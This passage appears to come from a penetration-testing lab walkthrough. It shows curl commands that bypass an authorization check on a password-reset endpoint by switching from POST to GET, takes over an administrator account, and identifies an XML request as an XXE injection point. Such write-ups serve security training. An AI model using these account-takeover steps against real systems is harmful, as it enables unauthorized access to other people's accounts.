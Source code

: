 **Direct Reset Attempt:**
```bash
curl -X POST "http://target.com/reset.php" \
    -H "Cookie: PHPSESSID=[SESSION]" \
    -d "uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=newpass123"

# Response: "Access Denied"
# Backend checks PHPSESSID against UID
```

#### Step 10: HTTP Verb Tampering Bypass

**Generate Strong Password:**
```bash
# Generate secure password
openssl rand -hex 16
# Output: f0e18de14fdadfc38350d97ff7284a25
```

**Bypass with GET Method:**
```bash
# Convert POST to GET request
curl "http://target.com/reset.php?uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=f0e18de14fdadfc38350d97ff7284a25" \
    -H "Cookie: PHPSESSID=[SESSION]"

# Response: "Password Updated Successfully"
```

**✅ Success:** Authorization bypass via HTTP verb tampering

---

### Phase 5: Admin Access & XXE Discovery

#### Step 11: Login as Administrator

**Admin Login:**
```
Username: a.corrales
Password: f0e18de14fdadfc38350d97ff7284a25
```

**New Features Unlocked:** 
- ✅ Administrative dashboard access
- ✅ **"ADD EVENT"** functionality (previously hidden)

#### Step 12: Discover XXE Injection Point

**Event Creation Analysis:**
1. Navigate to **ADD EVENT** functionality
2. Fill form with dummy data
3. Intercept request in Burp Suite/Network tab

**XXE Injection Point Found:**
```http
POST /addEvent.php HTTP/1.1
Host: target.com
Content-Type: application/xml
Cookie: PHPSESSID=admin_session...

<root>
    <name>Test Event</name>
    <details>Test Description</details>
    <date>2021-09-22</date>
</root>
```

